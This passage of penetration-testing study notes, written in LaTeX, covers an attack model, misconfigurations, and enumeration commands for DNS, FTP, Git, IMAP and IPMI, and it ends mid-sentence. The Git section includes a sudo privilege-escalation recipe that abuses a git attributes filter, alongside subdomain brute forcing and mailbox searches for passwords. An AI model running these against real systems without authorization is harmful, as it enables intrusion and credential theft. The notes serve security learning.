\part{Network and services pentesting}
\label{part:network}
\chapter{Introduction}
\section{The concept of attack}

To effectively understand attacks on the different services, we should look at
how these services can be attacked. A concept is an outlined plan that is
applied to future projects. 

we can try to group the services SSH, FTP, SMB, and HTTP ourselves and figure
out what these services have in common. Then we need to create a structure that
will allow us to identify the attack points of these different services using a
single pattern.

Analyzing commonalities and creating pattern templates that fit all conceivable
cases is not a finished product but rather a process that makes these pattern
templates grow larger and larger. Therefore, we have created a pattern template
for this topic for you to better and more efficiently teach and explain the
concept behind the attacks.

\begin{figure}
  
\includegraphics[width=\linewidth]{network/intro/images/attack_concept.png}
  \caption{Attack concept}
  \label{fig:attack_concept}
\end{figure}
The concept is based on four categories that occur for each vulnerability.
First, the {\bf Source} that performs the specific request to a {\bf Process}
where the vulnerability gets triggered. Each process has a specific set of {\bf
Privileges} with which it is executed. Each process has a task with a specific
goal or {\bf Destination} to either compute new data or forward it. However,
the individual and unique specifications under these categories may differ from
service to service.

Every task and piece of information follows a specific pattern, a cycle, which
we have deliberately made linear. This is because the {\bf Destination} does
not always serve as a {\bf Source} and is therefore not treated as a source of
a new task.

For any task to come into existence at all, it needs an idea, information
(Source), a planned process for it (Processes), and a specific goal
(Destination) to be achieved. Therefore, the category of Privileges is
necessary to control information processing appropriately.

\subsection{Source}
Source can be generalized  as a source of information used for the specific
task of a process. There are many different ways to pass information to a
process. The graphic shows some of the most common examples of how information
is passed to the processes.

The source is, therefore, the source that is exploited for vulnerabilities. It
does not matter which protocol is used because HTTP header injections can be
manipulated manually, as can buffer overflows. The source for this can
therefore be categorized as Code. So let us take a closer look at the pattern
template based on
\href{https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-44228}{Log4j}.



Log4j is a framework or Library used to log application messages in Java and
other programming languages. This library contains classes and functions that
other programming languages can integrate. For this purpose, information is
documented, similar to a logbook. Furthermore, the scope of the documentation
can be configured extensively. As a result, it has become a standard within
many open source and commercial software products. In this example, an attacker
can manipulate the HTTP User-Agent header and insert a JNDI lookup as a command
intended for the Log4j library. Accordingly, not the actual User-Agent header,
such as Mozilla 5.0, is processed, but the JNDI lookup.


\subsection{Process}
The Process is about processing the information forwarded from the source.
These are processed according to the intended task determined by the program
code. For each task, the developer specifies how the information is processed.
This can occur using classes with different functions, calculations, and loops.
The variety of possibilities for this is as diverse as the number of developers
in the world. Accordingly, most of the vulnerabilities lie in the program code
executed by the process.

The process of Log4j is to log the User-Agent as a string using a function and
store it in the designated location. The vulnerability in this process is the
misinterpretation of the string, which leads to the execution of a request
instead of logging the events. However, before we go further into this
function, we need to talk about privileges.

\subsection{Privileges}
Privileges are present in any system that controls processes. These serve as a
type of permission that determines what tasks and actions can be performed on
the system. These privileges can also be used for different means. In computer
systems, these privileges serve as control and segmentation of actions for
which different permissions, controlled by the system, are needed. Therefore,
the rights are checked based on this categorization when a process needs to
fulfill its task. If the process satisfies these privileges and conditions, the
system approves the action requested.

What made the Log4j vulnerability so dangerous was the Privileges that the
implementation brought. Logs are often considered sensitive because they can
contain data about the service, the system itself, or even customers.
Therefore, logs are usually stored in locations that no regular user should be
able to access. Accordingly, most applications with the Log4j implementation
were run with the privileges of an administrator. The process itself exploited
the library by manipulating the User-Agent so that the process misinterpreted
the source and led to the execution of user-supplied code.

\subsection{Destination}

Every task has at least one purpose and goal that must be fulfilled. Logically,
if any data set changes were missing or not stored or forwarded anywhere, the
task would be generally unnecessary. The result of such a task is either stored
somewhere or forwarded to another processing point. Therefore we speak here of
the Destination where the changes will be made. Such processing points can
point either to a local or remote process. Therefore, at the local level, local
files or records may be modified by the process or be forwarded to other local
services for further use. However, this does not exclude the possibility that
the same process could reuse the resulting data too. If the process is
completed with the data storage or its forwarding, the cycle leading to the
task's completion is closed.

The misinterpretation of the User-Agent leads to a JNDI lookup which is
executed as a command from the system with administrator privileges and queries
a remote server controlled by the attacker, which in our case is the
Destination in our concept of attacks. This query requests a Java class created
by the attacker and is manipulated for its own purposes. The queried Java code
inside the manipulated Java class gets executed in the same process, leading to
a remote code execution (RCE) vulnerability.


\section{Misconfiguration}
Some of the most typical misconfigurations of common services
\subsection{Authentication: default / weak}
In previous years (though we still see this sometimes during assessments), it
was widespread for services to include default credentials (username and
password). Nowadays, most software asks users to set up credentials upon
installation, which is better than default credentials. However, keep in mind
that we will still find vendors using default credentials, especially on older
applications.

Even when the service does not have a set of default credentials, an
administrator may use weak passwords or no passwords when setting up services
with the idea that they will change the password once the service is set up and
running.

As administrators, we need to define password policies that apply to software
tested or installed in our environment. Administrators should be required to
comply with a minimum password complexity to avoid weak user and passwords
combinations.

Once the service banner is grabed, the next step should be to identify possible
default credentials. If there are no default credentials, weak username and
password combinations could be tryed.

\subsection{Authentication: anonymous}
Another misconfiguration that can exist in common services is anonymous
authentication. The service can be configured to allow anonymous
authentication, allowing anyone with network connectivity to the service
without being prompted for authentication.

\subsection{Misconfigured Access Rights}

Misconfigured access rights are when user accounts have incorrect permissions.
The bigger problem could be giving people lower down the chain of command
access to private information that only managers or administrators should
have.

Administrators need to plan their access rights strategy, and there are some
alternatives such as
\href{https://en.wikipedia.org/wiki/Role-based_access_control}{Role-based
access control (RBAC)},
\href{https://en.wikipedia.org/wiki/Access-control_list}{Access control lists
(ACL)}. Read
\href{https://authress.io/knowledge-base/role-based-access-control-rbac}{Choosing
the best access control strategy} for pros and cons of each method.
\subsection{Unnecessary Defaults}
The initial configuration of devices and software may include but is not
limited to settings, features, files, and credentials. Those default values are
usually aimed at usability rather than security. Leaving it default is not a
good security practice for a production environment. Unnecessary defaults are
those settings we need to change to secure a system by reducing its attack
surface.

We might as well deliver up our company's personal information on a silver
platter if we take the easy road and accept the default settings while setting
up software or a device for the first time. In reality, attackers may obtain
access credentials for specific equipment or abuse a weak setting by conducting
a short internet search.

Security Misconfiguration are part of the OWASP Top 10 list. Let's take a look
at those related to default values:
\begin{itemize}
    \item  Unnecessary features are enabled or installed (e.g., unnecessary ports, services, pages, accounts, or privileges).
    \item  Default accounts and their passwords are still enabled and unchanged.
    \item  Error handling reveals stack traces or other overly informative error messages to users.
    \item  For upgraded systems, the latest security features are disabled or not configured securely.
\end{itemize}

\section{Sensitive information}

When attacking a service, we usually play a detective role, and we need to
collect as much information as possible and carefully observe the details.
Therefore, every single piece of information is essential.

Let us imagine we are in an engagement with a client, we are targeting email,
FTP, databases, and storage, and our goal is to obtain Remote Code Execution
(RCE) on any of these services. We started the enumeration and tried anonymous
access to all services, and only FTP has anonymous access. We found an empty
file within the FTP service, but with the name johnsmith, we tried johnsmith as
the FTP user and password, but it did not work. We try the same against the
email service, and we successfully login. With email access, we start searching
emails containing the word password, we find many, but one of them contains
John's credentials for the MSSQL database. We access the database and use the
built-in functionality to execute commands and successfully get RCE on the
database server. We successfully met our goal.

A misconfigured service let us access a piece of information that initially may
look insignificant, johnsmith, but that information opened the doors for us to
discover more information and finally get remote code execution on the database
server. This is the importance of paying attention to every piece of
information, every detail, as we enumerate and attack common services.a

Sensitive information may include, but is not limited to:
\begin{itemize}
    \item  Usernames.
    \item  Email Addresses.
    \item  Passwords.
    \item  DNS records.
    \item  IP Addresses.
    \item  Source code.
    \item  Configuration files.
    \item  PII.
\end{itemize}


Every target is unique, and we need to familiarize ourselves with our target,
its processes, procedures, business model, and purpose. Once we understand our
target, we can think about what information is essential for them and what kind
of information is helpful for our attack.

There are two key elements to finding sensitive information:
\begin{itemize}
        \item understand the service and how it works.
        \item know what to look for.
\end{itemize}



\chapter{Identifing unknow service}

\begin{verbatim}
 sudo nmap -vvv -A --reason --script="+safe" -p8500 10.10.10.11
\end{verbatim}

\url{https://nmap.org/book/nse-usage.html}

\href{https://www.speedguide.net/port.php?port=8500}{Ports Database}

run Wireshark when probing the port with nmap

fire up wireshark  to see if one of the most popular wireshark \href{https://wiki.wireshark.org/Lua/Dissectors}{protocol dissectors} successfully identifies the traffic whire probing the service (use
    decode as feature  to force wireshark to decode the packet a a particular
protocol)

for some privte protocol to revers see
\url{http://reverseengineering.stackeexchange.com/a/2494}


\chapter{Network traffic analysis}
\section{Process}
\subsection{Analysis Dependencies}
Traffic capturing and analysis can be performed in two different ways:
\begin{itemize}
    \item  passive: copying data that we can see without directly interacting with the packets.
    \item active.
\end{itemize}

%\subsection{Traffic Capture Dependencies}
%
%\begin{tabularx}{\textwidth}{|l|X|}
%\hline
%Dependencies &	Passive & 	Active &	Description\\
%\hline
%Mirrored Port 	x &	 & 	A switch or router network interface configured to copy
%data from other sources to that specific interface, along with the capability
%to place your NIC into promiscuous mode. Having packets copied to our port
%allows us to inspect any traffic destined to the other links we could normally
%not have visibility over. Since VLANs and switch ports will not forward traffic
%outside of their broadcast domain, we have to be connected to the segment or
%have that traffic copied to our specific port. When dealing with wireless,
%passive can be a bit more complicated. We must be connected to the SSID we wish
%to capture traffic off of. Just passively listening to the airwaves around us
%will present us with many SSID broadcast advertisements, but not much else.\\
%\hline
%Capture Tool &	x &	x &	A way to ingest the traffic. A computer with access to
%tools like TCPDump, Wireshark, Netminer, or others is sufficient. Keep in mind
%that when dealing with PCAP data, these files can get pretty large quickly.
%Each time we apply a filter to it in tools like Wireshark, it causes the
%application to parse that data again. This can be a resource-intensive process,
%so make sure the host has abundant resources.\\
%\hline
%In-line Placement &	 &	x &	Placing a Tap in-line requires a topology change
%for the network you are working in. The source and destination hosts will not
%notice a difference in the traffic, but for the sake of routing and switching,
%it will be an invisible next hop the traffic passes through on its way to the
%destination.\\
%\hline
%Network Tap or Host With Multiple NIC's & &	x &	A computer with two NIC's, or a
%device such as a Network Tap is required to allow the data we are inspecting to
%flow still. Think of it as adding another router in the middle of a link. To
%actively capture the traffic, we will be duplicating data directly from the
%sources. The best placement for a tap is in a layer three link between switched
%segments. It allows for the capture of any traffic routing outside of the local
%network. A switched port or VLAN segmentation does not filter our view here.\\
%\hline
%Storage and Processing Power &	x &	x &	You will need plenty of storage space
%and processing power for traffic capture off a tap. Much more traffic is
%traversing a layer three link than just inside a switched LAN. Think of it like
%this; When we passively capture traffic inside a LAN, it's like pouring water
%into a cup from a water fountain. It's a steady stream but manageable. Actively
%grabbing traffic from a routed link is more like using a water hose to fill up
%a teacup. There is a lot more pressure behind the flow, and it can be a lot for
%the host to process and store.\\
%\hline
%\end{tabularx}

\section{Berkeley Packet Filters (BPF) syntax}
\label{network:bpf}
Berkeley Packet Filters (BPF) provide a powerful tool for intrusion detection analysis. Use BPF filtering to quickly reduce large packet captures to a reduced set of results by filtering based on a specific type of traffic. Both admin and non-admin users can create BPF filters.

\subsection{Primitives}
Primitives are references to fields in a network protocol header, such as host, port, or TCP port. The BPF syntax consists of one or more primitives, which usually consist of an ID, typically a name or number, which is preceded by one or more qualifiers.

\begin{itemize}
    \item {\bf Type qualifiers}: identify the kind of information that the ID name or number refers to. For example, the type might refer to host, net, port, or portrange. When no type qualifier exists, host is assumed. 
    \item {\bf Dir qualifiers}: specify the transfer direction in relation to the ID. For example, the dir qualifier might be src, dst, or src or dst.
    \item {\bf Proto qualifiers}: restricts the match to a particular protocol. Possible protocols are ether, fddi, tr, wlan, ip, ip6, arp, rarp, decnet, TCP, or UDP.
\end{itemize}

\begin{xltabular}{\linewidth}{|X|X|}
    \hline
Primitive filter & Description \\
    \hline
[src|dst] host <host> &	Matches a host as the IP source, destination, or either.
The following list shows examples of host expressions:
    \begin{itemize}
        \item dst host 192.168.1.0
        \item src host 192.168.1
        \item dst host 172.16
        \item src host 10
        \item host 192.168.1.0
        \item host 192.168.1.0/24
        \item src host 192.168.1/24
    \end{itemize}
The host expressions can be used with other protocols like ip, arp, rarp or
ip6.\\
    \hline
ether [src|dst] host <ehost> &	Matches a host as the Ethernet source, destination, or either.
The following list shows examples of host expressions:
    \begin{itemize}
        \item ether host <MAC>
        \item ether src host <MAC>
        \item ether dst host <MAC>
    \end{itemize}\\
    \hline
[src|dst] n <network> & 	Matches packets to or from the source and destination, or either.
An IPv4 network number can be specified as:

    \begin{itemize}
            \item Dotted quad (for example, 192.168.1.0)
            \item Dotted triple (for example, 192.168.1)
            \item Dotted pair (for example, 172.16)
            \item Single number (for example, 10)
    \end{itemize}
The following list shows some examples:

    \begin{itemize}
            \item dst net 192.168.1.0
            \item src net 192.168.1
            \item dst net 172.16
            \item src net 10
            \item net 192.168.1.0
            \item net 192.168.1.0/24
            \item src net 192.168.1/24
    \end{itemize}\\

    \hline
[src|dst] net <network>  mask <netmask>  or  [src|dst] net
<network>/<len> &	Matches packets with specific netmask.
You can also use /len to capture traffic from range of IP addresses.

    \begin{itemize}
            \item Netmask for dotted quad (for example, 192.168.1.0) is 255.255.255.255
            \item Netmask for dotted triple (for example, 192.168.1) is 255.255.255.0
            \item Netmask for dotted pair (for example, 172.16) is 255.255.0.0
            \item Netmask for a single number (for example, 10) is 255.0.0.0
    \end{itemize}

The following list shows some examples:

    \begin{itemize}
            \item dst net 192.168.1.0 mask 255.255.255.255 or dst net 192.168.1.0/24
            \item src net 192.168.1 mask 255.255.255.0 or src net 192.168.1/24
            \item dst net 172.16 mask 255.255.0.0 src net 10 mask 255.0.0.0
    \end{itemize}
\\
    \hline
[src|dst] port <port> or [tcp|udp] [src|dst] port <port> &	Matches packets that are sent to or from a port.

Protocols, such as TCP, UDP, and IP, can be applied to a port to get specific results.
The following list shows some examples:

    \begin{itemize}
            \item src port 443
            \item dst port 20
            \item port 80
    \end{itemize}
\\
    \hline
[src|dst] portrange <p1>-<p2> or [tcp|udp] [src|dst] portrange <p1>-<p2> &	Matches packets to or from a port in a specific range.

Protocols can be applied to port range to filter specific packets within the range
The following list shows some examples:

    \begin{itemize}
            \item src portrange 80-88
            \item tcp portrange 1501-1549
    \end{itemize}
\\
    \hline
less <length> &	Matches packets less than or equal to length, for example, len
<= length.\\
    \hline
greater <length> &	Matches packets greater than or equal to length, for
example, len >= length.\\
    \hline
(ether|ip|ip6) proto <protocol> &	Matches an Ethernet, IPv4, or IPv6 protocol.
The protocol can be a number or name, for example,

    \begin{itemize}
            \item ether proto 0x888e
            \item ip proto 50
    \end{itemize}

    \\
    \hline

(ip|ip6) protochain <protocol> &	Matches IPv4, or IPv6 packets with a
protocol header in the protocol header chain, for example ip6 protochain 6.\\
    \hline
(ether|ip) broadcast &	Matches Ethernet or IPv4 broadcasts\\
    \hline
(ether|ip|ip6) multicast &	Matches Ethernet, IPv4, or IPv6 multicasts. For
example, \verb+ether[0] & 1 != 0+.\\
    \hline
vlan [<vlan>] &	Matches 802.1Q frames with a VLAN ID of vlan.
Here are some examples:

    \begin{itemize}
            \item vlan 100 \&\& vlan 200 filters on vlan 200 encapsulated within vlan 100.
            \item vlan \&\& vlan 300 \&\& ip filters IPv4 protocols encapsulated in vlan 300 encapsulated within any higher-order vlan.
    \end{itemize}
\\
    \hline
mpls [<label>] &	Matches MPLS packets with a label.

The MPLS expression can be used more than once to filter on MPLS hierarchies.
This list shows some examples:

    \begin{itemize}
            \item mpls 100000 \&\& mpls 1024 filters packets with outer label 100000 and inner label 1024.
            \item mpls \&\& mpls 1024 \&\& host 192.9.200.1 filters packets to and from 192.9.200.1 with an inner label of 1024 and any outer label.
    \end{itemize}
\\
    \hline
\end{xltabular}

\subsection{Protocols and operators}

Ccomplex filter expressions can be build by using modifiers and operators to combine protocols with primitive BPF filters. The following list shows protocols that can be use:
\begin{itemize}
    \item  arp
    \item  ether
    \item  fddi
    \item  icmp
    \item  ip
    \item  ip6
    \item  link
    \item  ppp
    \item  radio
    \item  rarp
    \item  slip
    \item  tcp
    \item  tr
    \item  udp
    \item  wlan
\end{itemize}

Valid modifiers and operators:
\begin{tabular}{|l|l|}
    \hline
Description & Syntax \\
    \hline
Parentheses &	\verb+( )+ \\
    \hline
Negation &	\verb+!=+ \\
    \hline
Concatenation &	'\verb+&&+' or 'and' \\
    \hline
Alteration &	'\verb+||+' or 'or' \\
    \hline
\end{tabular}




\chapter{DNS: Domain Name System}

\section{Introduction}

Port 53 UDP

Server types:
\begin{itemize}
        \item DNS Root Server 	The root servers of the DNS are responsible for the top-level domains (TLD). As the last instance, they are only requested if the name server does not respond. Thus, a root server is a central interface between users and content on the Internet, as it links domain and IP address. The Internet Corporation for Assigned Names and Numbers (ICANN) coordinates the work of the root name servers. There are 13 such root servers around the globe.
        \item Authoritative Nameserver 	Authoritative name servers hold authority for a particular zone. They only answer queries from their area of responsibility, and their information is binding. If an authoritative name server cannot answer a client's query, the root name server takes over at that point.
        \item Non-authoritative Nameserver 	Non-authoritative name servers are not responsible for a particular DNS zone. Instead, they collect information on specific DNS zones themselves, which is done using recursive or iterative DNS querying.
        \item Caching DNS Server 	Caching DNS servers cache information from other name servers for a specified period. The authoritative name server determines the duration of this storage.
        \item Forwarding Server 	Forwarding servers perform only one function: they forward DNS queries to another DNS server.
        \item Resolver 	Resolvers are not authoritative DNS servers but perform name resolution locally in the computer or router.
\end{itemize}


There are many ways in which a DNS server can be attacked. For example, a list
of vulnerabilities targeting the BIND9 server can be found at
\href{https://www.cvedetails.com/product/144/ISC-Bind.html?vendor_id=64}{CVEdetails}.
In addition, SecurityTrails provides a
\href{https://securitytrails.com/blog/most-popular-types-dns-attacks}{short
list} of the most popular attacks on DNS servers.

\section{Footprinting}

\subsection{dig / drill}

\begin{verbatim}
drill @DNS_IP RECORD_TYPE FQDN
drill @DNS_IP ns DOMAIN

# all available entries that server is willing to disclose.
drill @DNS_IP  any DOMAIN

\end{verbatim}

\section{Zone transfer}
\begin{verbatim}
#zone transfer
drill @DNS_IP  axfr DOMAIN

\end{verbatim}

\section{Brute-force attack}
\begin{verbatim}
for sub in $(cat $SECLISTS/Discovery/DNS/subdomains-top1million-110000.txt); \
    do dig $sub.DOMAIN @IP \
    | grep -v ';\|SOA' | sed -r '/^\s*$/d' \
    | grep $sub | tee -a subdomains.txt;done
\end{verbatim}

\subsection{DNSenum}

\begin{verbatim}
dnsenum --threads X --dnsserver IP --enum -p 0 -s 0 -o RESULT -f $WORDLIST $DOMAIN
\end{verbatim}


\chapter{Firebase}
\href{https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/buckets/firebase-database}{link}
\chapter{FTP/TFTP: (Trivial) File Transfert Protocol}

\section{Introduction}

l. In an FTP connection, two channels are opened. First, the client and server
establish a {\bf control channel (TCP/21)}. The client sends commands to
the server, and the server returns status codes. Then both communication
participants can establish the {\bf data channel(TCP/20)}. This channel is
used exclusively for data transmission, and the protocol watches for errors
during this process. If a connection is broken off during transmission, the
transport can be resumed after re-established contact.

A distinction is made between {\bf active} and {\bf passive} FTP. In the active variant,
the client establishes the connection as described via TCP port 21 and thus
informs the server via which client-side port the server can transmit its
responses. However, if a firewall protects the client, the server cannot reply
because all external connections are blocked. For this purpose, the passive
mode has been developed. Here, the server announces a port through which the
client can establish the data channel. Since the client initiates the
connection in this method, the firewall does not block the transfer.

{\bf Trivial File Transfer Protocol (TFTP)} is simpler than FTP and performs
file transfers between client and server processes. However, it {\bf does not}
provide user authentication and other valuable features supported by FTP. In
addition, while FTP uses TCP, TFTP uses {\bf UDP}, making it an unreliable protocol
and causing it to use UDP-assisted application layer recovery.


\section{footprint / enumeration}
\subsection{nmap}
\begin{verbatim}
sudo nmap -p21 -sV i-sC --script-trace --script=banner 

find / -type f -name ftp* 2>/dev/null | grep nse
locate nse |grep ftp
\end{verbatim}

\begin{itemize}
    \item \verb+ftp-anon+: check anonymous allowed
    \item \verb+ftp-syst+: get status and config
\end{itemize}

\section{Interaction}
\begin{verbatim}
nc -nv IP 21
telnet IP 21
wget -m --no-passive ftp://anonymous:anonymous@IP
openssl s_client -connect IP:21 -starttls ftp
\end{verbatim}




\chapter{Git}

\section{Web exposition}

wordlist: \verb+eclists/Discovery/Web-Content/versioning_metafiles.txt+

\href{https://git-scm.com/book/en/v2/Getting-Started-About-Version-Control}{Git}
\section{Commands}

\begin{verbatim}
$ git log
$ git show 47241a47f62ada864ec74bd6dedc4d33f4374699
\end{verbatim}

\section{Privesc}

\subsection{Git Attributes}

\href{https://git-scm.com/book/en/v2/Customizing-Git-Git-Attributes}{Git
Attributes}

\begin{verbatim}
#!/bin/bash

u=$(/usr/bin/git --git-dir=/var/www/image/.git  --work-tree=/var/www/image ls-files  -o --exclude-standard)

if [[ $u ]]; then
        /usr/bin/git --git-dir=/var/www/image/.git  --work-tree=/var/www/image add -A
else
        /usr/bin/git --git-dir=/var/www/image/.git  --work-tree=/var/www/image commit -m "Commited from API!" --author="james <james@haxtables.htb>"  --no-verify

\end{verbatim}


\begin{verbatim}
git init
echo '*.php filter=indent' > .git/info/attributes
git config filter.indent.clean /tmp/pwn
sudo -u XXX /var/www/image/scripts/git-commit.sh
\end{verbatim}

\section{Tools}

\url{https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/git}

\subsection{git-dumper}

\href{https://github.com/arthaud/git-dumper}{git-dumper} A tool to dump a git
repository from a website. It requieres directory listing


\subsection{GitTools}

\href{https://github.com/internetwache/GitTools}{GitTools} contains three small
python/bash scripts used for the Git research.

\subsubsection{Finder}

You can use this tool to find websites with their .git repository available to the public

\subsubsection{Dumper}
This is a tool for downloading .git repositories from webservers which do not have directory listing enabled.

\subsubsection{Extractor}

A small bash script to extract commits and their content from a broken repository.


\section{Git usage}

\subsection{github}

\url{https://docs.github.com/en/pull-requests/collaborating-with-pull-requests/working-with-forks/about-forks}

\url{https://docs.github.com/en/pull-requests/collaborating-with-pull-requests/proposing-changes-to-your-work-with-pull-requests/creating-a-pull-request-from-a-fork}

\url{https://www.atlassian.com/git/tutorials/comparing-workflows/feature-branch-workflow}
\subsubsection{create a fork}

\begin{verbatim}
gh auth login 
gh repo fork https://github.com/Pennyw0rth/NetExec.git
cd NetExec
git checkout -b <branch_name>
git add <some-file>
git commit
git push -u origin <branch_name>
\end{verbatim}



\chapter{IMAP: Internet Message Access Protocol}
\section{Introduction}
IMAP allows online management of emails directly on the server and supports
folder structures. Thus, it is a network protocol for the online management of
emails on a remote server. The protocol is client-server-based and allows
synchronization of a local email client with the mailbox on the server,
providing a kind of network file system for emails, allowing problem-free
synchronization across several independent clients.

 IMAP is text-based and has extended functions, such as browsing emails
 directly on the server. It is also possible for several users to access the
 email server simultaneously. Without an active connection to the server,
 managing emails is impossible. However, some clients offer an offline mode
 with a local copy of the mailbox. The client synchronizes all offline local
 changes when a connection is reestablished.

 The client establishes the connection to the server via port 143. For
 communication, it uses text-based commands in ASCII format. Several commands
 can be sent in succession without waiting for confirmation from the server.
 Later confirmations from the server can be assigned to the individual commands
 using the identifiers sent along with the commands. Immediately after the
 connection is established, the user is authenticated by user name and password
 to the server. Access to the desired mailbox is only possible after successful
 authentication.

 SMTP is usually used to send emails. By copying sent emails into an IMAP
 folder, all clients have access to all sent mails, regardless of the computer
 from which they were sent. Another advantage of the Internet Message Access
 Protocol is creating personal folders and folder structures in the mailbox.
 This feature makes the mailbox clearer and easier to manage. However, the
 storage space requirement on the email server increases.

Without further measures, IMAP works unencrypted and transmits commands,
emails, or usernames and passwords in plain text. Many email servers require
establishing an encrypted IMAP session to ensure greater security in email
traffic and prevent unauthorized access to mailboxes. SSL/TLS is usually used
for this purpose. Depending on the method and implementation used, the
encrypted connection uses the standard {\bf port 143} or an alternative port such as
{\bf 993}.


\section{Dangerous Settings}

Nevertheless, configuration options that were improperly configured could allow
us to obtain more information, such as debugging the executed commands on the
service or logging in as anonymous, similar to the FTP service. Most companies
use third-party email providers such as Google, Microsoft, and many others.
However, some companies still use their own mail servers for many different
reasons. One of these reasons is to maintain the privacy that they want to keep
in their own hands. Many configuration mistakes can be made by administrators,
which in the worst cases will allow us to read all the emails sent and
received, which may even contain confidential or sensitive information. Some of
these configuration options include:

\begin{itemize}
        \item \verb+auth_debug+ 	Enables all authentication debug logging.
        \item \verb+auth_debug_passwords+ 	This setting adjusts log verbosity, the submitted passwords, and the scheme gets logged.
        \item \verb+auth_verbose+ 	Logs unsuccessful authentication attempts and their reasons.
        \item \verb+auth_verbose_passwords+ 	Passwords used for authentication are logged and can also be truncated.
        \item \verb+auth_anonymous_username+ 	This specifies the username to be used when logging in with the ANONYMOUS SASL mechanism.
\end{itemize}


\section{Footprint and enumeration}

\subsection{nmap}
\begin{verbatim}
sudo nmap  -sV -p110,143,993,995 -sC
sudo nmap  -sV -p110,143,993,995 --script=banner
sudo nmap  -sV -p110,143,993,995 --script=imap-capabilities
\end{verbatim}

\section{Interaction}

\subsection{Commands}
\begin{itemize}
        \item \verb+1 LOGIN username password+ 	User's login.
        \item \verb+1 LIST "" *+ 	Lists all directories.
        \item \verb+1 CREATE "INBOX"+ 	Creates a mailbox with a specified name.
        \item \verb+1 DELETE "INBOX"+ 	Deletes a mailbox.
        \item \verb+1 RENAME "ToRead" "Important"+ 	Renames a mailbox.
        \item \verb+1 LSUB "" *+ 	Returns a subset of names from the set of names that the User has declared as being active or subscribed.
        \item \verb+1 SELECT INBOX+ 	Selects a mailbox so that messages in the mailbox can be accessed.
        \item \verb+1 UNSELECT INBOX+ 	Exits the selected mailbox.
        \item \verb+1 FETCH <ID> all+ 	Retrieves data associated with a message in the mailbox.
        \item \verb+1 FETCH <ID> BODY[]+ Retrieves body of a message in the mailbox.
        \item \verb+1 CLOSE+ 	Removes all messages with the Deleted flag set.
        \item \verb+1 LOGOUT+ 	Closes the connection with the IMAP server.
\end{itemize}

\subsection{curl}
\begin{verbatim}
# List mailboxes 
curl -kv imaps://IP/ --user LOGIN:PASSWORD
curl -k imaps://IP --user LOGIN:PASSWORD -X 'COMMAND'

# List messages in a mailbox (imap command SELECT INBOX and then SEARCH ALL)
curl -k 'imaps://IP/INBOX?ALL' --user user:pass

# list of message indicies in Drafts containing password
curl -k 'imaps://IP/Drafts?TEXT password' --user user:pass

# Downloadi a message (imap command SELECT Drafts and then FETCH 1 BODY[])
curl -k 'imaps://IP/Drafts;MAILINDEX=1' --user user:pass

\end{verbatim}

\begin{itemize}
    \item \verb+STATUS INBOX (MESSAGES)+: get count of message in mailbox INBOX
\end{itemize}

\subsection{openssl}

\begin{verbatim}
openssl s_client -connect IP:imaps
\end{verbatim}

\chapter{IPMI: Intelligent Platform Management Interface}

\section{introduction}
\href{https://www.thomas-krenn.com/en/wiki/IPMI_Basics}{IPMI} is a set of
standardized specifications for hardware-based host management systems used for
system management and monitoring. It acts as an autonomous subsystem and works
independently of the host's BIOS, CPU, firmware, and underlying operating
system. IPMI provides sysadmins with the ability to manage and monitor systems
even if they are powered off or in an unresponsive state. It operates using a
direct network connection to the system's hardware and does not require access
to the operating system via a login shell. IPMI can also be used for remote
upgrades to systems without requiring physical access to the target host. IPMI
is typically used in three ways:
\begin{itemize}
    \item  Before the OS has booted to modify BIOS settings
    \item  When the host is fully powered down
    \item  Access to a host after a system failure
\end{itemize}

When not being used for these tasks, IPMI can monitor a range of different
things such as system temperature, voltage, fan status, and power supplies. It
can also be used for querying inventory information, reviewing hardware logs,
and alerting using SNMP. The host system can be powered off, but the IPMI
module requires a power source and a LAN connection to work correctly.

The IPMI protocol was first published by Intel in 1998 and is now supported by
over 200 system vendors, including Cisco, Dell, HP, Supermicro, Intel, and
more. Systems using IPMI version 2.0 can be administered via serial over LAN,
giving sysadmins the ability to view serial console output in band. To
function, IPMI requires the following components:
\begin{itemize}
    \item  Baseboard Management Controller (BMC) - A micro-controller and essential component of an IPMI
    \item  Intelligent Chassis Management Bus (ICMB) - An interface that permits communication from one chassis to another
    \item  Intelligent Platform Management Bus (IPMB) - extends the BMC
    \item  IPMI Memory - stores things such as the system event log, repository store data, and more
    \item  Communications Interfaces - local system interfaces, serial and LAN interfaces, ICMB and PCI Management Bus
\end{itemize}

IPMI communicates over {\bf port 623 UDP}. Systems that use the IPMI protocol are
